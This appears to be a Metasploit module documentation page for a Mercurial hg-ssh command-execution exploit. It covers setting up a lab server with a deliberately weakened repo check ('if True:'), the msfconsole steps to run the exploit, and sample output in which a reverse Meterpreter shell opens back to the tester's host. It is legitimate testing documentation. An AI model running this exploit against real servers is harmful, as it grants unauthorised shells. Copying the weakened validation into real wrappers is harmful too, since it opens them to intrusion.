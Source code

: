## Vulnerable Application

[mercurial](https://www.mercurial-scm.org/downloads).

This module was successfully tested against:

Kali Linux, HG 4.0 and a customized hg-ssh (to simulate custom hg-ssh wrappers which have weak repo validation)

## Vulnerable Server Setup Steps

  1. Install mercurial on your test server
  2. Patch the hg-ssh Python script script to emulate custom/weak repo validation in hg-ssh wrapper `vi $(which hg-ssh)`
     - Replace "if repo in allowed paths:" with "if True:"
     - Replace "cmd = ['-R', repo, 'serve', 'stdio']" with "cmd = ['-R', path, 'serve', 'stdio']"
  3. Setup a user with SSH pubkey auth
  4. Create a test repo in the users home directory and add a commit
     - `mkdir -p repos/repo1`
     - `cd repos/repo1`
     - `echo "hello world" > README`
     - `hg add README`
     - `hg commit -m "Adds README"`
  5. Restrict user in authorized_keys to hg-ssh binary only
     - `command="hg-ssh ~/repos/repo1",no-port-forwarding,no-X11-forwarding,no-agent-forwarding INSERT_SSH_PUB_KEY`
  6. Verify SSH user can authenticate (should prompt and prevent a shell)
     - `ssh user@192.168.10.99`
  7. Verify SSH user commands are not allows (should prevent arbitrary commands)
     - `ssh user@192.168.10.99 ifconfig`

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/ssh/mercurial_ssh_exec`
  3. Do: `set RHOST <ip>`
  4. Do: `set LHOST <ip>`
  5. Do: `set SSH_PRIV_KEY_FILE /Users/jsmith/.ssh/id_rsa`
  6. Do: `exploit`
  7. You should get a shell.

## Scenarios

### Kali Linux, HG 4.0 and a customized hg-ssh (to simulate custom hg-ssh wrappers which have weak repo validation)

```
msf exploit(mercurial_ssh_exec) > exploit

[*] Started reverse TCP handler on 192.168.10.37:4444 
[*] 192.168.10.99:22 - 192.168.10.99:22 - Attempting to login...
[+] 192.168.10.99:22 - SSH connection is established.
[+] 192.168.10.99:22 - Triggered Debugger (entering debugger - type c to continue starting hg or h for help)
[*] Sending stage (39842 bytes) to 192.168.10.99
[*] Meterpreter session 1 opened (192.168.10.37:4444 -> 192.168.10.99:57606) at 2017-04-18 19:16:44 -0400
```

